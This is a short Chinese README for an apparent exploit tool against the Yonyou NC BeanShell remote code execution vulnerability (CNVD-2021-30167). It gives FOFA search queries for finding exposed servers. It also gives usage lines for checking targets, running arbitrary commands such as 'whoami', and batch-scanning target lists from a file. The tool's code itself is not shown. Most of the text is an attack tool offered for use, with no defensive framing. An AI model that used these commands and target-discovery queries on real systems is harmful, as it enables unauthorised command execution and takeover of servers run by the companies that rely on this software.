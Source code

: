 # 用友NC BeanShell远程代码执行 

# CNVD-2021-30167

## 漏洞描述

用友NC是一款企业级管理软件，在大中型企业广泛使用。实现建模、开发、继承、运行、管理一体化的IT解决方案信息化平台。用友 NC bsh.[servlet](https://so.csdn.net/so/search?q=servlet&spm=1001.2101.3001.7020).BshServlet 存在远程命令执行漏洞，通过BeanShell 执行远程命令获取服务器权限。

## FOFA

```
title="YONYOU NC"
icon_hash="1085941792"
```

## 使用方法

```
python ./YONYOU-NC-RCE.py -u http://www.example.com --check
python ./YONYOU-NC-RCE.py -u http://www.example.com --cmd "whoami"
python ./YONYOU-NC-RCE.py -f target.txt

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Start scanning url
  -f FILE, --file FILE  read the url from the file
  --check               Check if vulnerable
  --cmd CMD             execute cmd (i.e: "ls -l")
```

